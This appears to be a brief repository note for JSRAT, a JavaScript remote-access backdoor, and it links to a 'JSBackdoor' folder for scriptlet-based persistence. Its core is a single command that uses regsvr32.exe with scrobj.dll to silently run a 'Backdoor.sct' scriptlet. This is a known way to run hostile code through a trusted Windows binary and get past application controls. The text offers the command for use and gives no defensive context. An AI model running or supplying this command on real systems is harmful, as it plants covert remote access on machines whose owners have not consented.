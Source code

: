 Another way of JSRAT on SCTPersistence.
https://github.com/subTee/SCTPersistence/tree/master/JSBackdoor

regsvr32.exe /s /i:Backdoor.sct scrobj.dll


Thanks to Casey Smith@subTee 

